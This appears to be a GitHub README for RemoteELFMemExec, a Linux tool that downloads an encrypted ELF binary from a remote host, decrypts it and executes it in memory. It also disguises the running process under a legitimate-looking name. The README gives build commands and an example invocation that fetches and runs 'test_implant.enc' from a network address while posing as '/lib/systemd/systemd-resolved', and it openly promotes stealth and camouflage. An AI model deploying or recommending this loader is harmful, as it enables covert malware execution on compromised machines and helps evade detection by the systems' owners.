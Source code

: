 <h1 align="center">
	<img src="https://github.com/user-attachments/assets/e4ebb8a9-9b09-43d3-b7a9-ba7c4a877631"width="200px"><br>
    RemoteELFMemExec
</h1>

**RemoteELFMemExec** is a tool designed to download, decrypt, and execute ELF binaries directly in memory from a remote URL. This utility enables the execution of executable files without writing them to disk, leveraging memory-based execution for enhanced stealth and efficiency. The tool uses XOR encryption to securely decrypt the ELF binary before execution.

Additionally, **RemoteELFMemExec** allows specifying a process name similar to `exec -a`, which facilitates process camouflage and helps it appear as a legitimate process.


> **⚠️ Warning:** On legacy systems, such as CentOS 6, it is not possible to execute ELF files directly in memory due to the lack of support for the `memfd_create` function, introduced in Linux 3.17. In these environments, the process downloads the encrypted ELF file to disk, decrypts it, executes it, and then deletes it.



## Compilation

### Requirements

Before compiling, ensure you have the following packages installed:

- `gcc`
- `make`
- `libcurl4-openssl-dev`


### Debug Mode
```bash

make

```
**⚠️ Warning:** To enable static compilation, you must compile `lcurl` as a static library.
### Static Compilation
```bash

make  static

```
### Legacy Systems
```bash

make  legacy

```
### Static Compilation for Legacy Systems
```bash

make  legacy_static

```
## Usage
```bash

./elfMemExecutor  <Url>  <Key>  <Alias_process>

```
## Example
```bash

./elfMemExecutor  http://192.168.1.190/test_implant.enc  0331afffba74a654b4e8  "/lib/systemd/systemd-resolved"

```
### Example Debug Mode
![image](https://github.com/user-attachments/assets/2d24acdb-6623-438e-904d-55094cf02396)


### Example Static 
![image](https://github.com/user-attachments/assets/6991bee4-2f0e-4d95-8812-7ee810b4afaa)

### Example Legacy 
![image](https://github.com/user-attachments/assets/905d9cad-0181-4b85-b83f-401228839c6c)

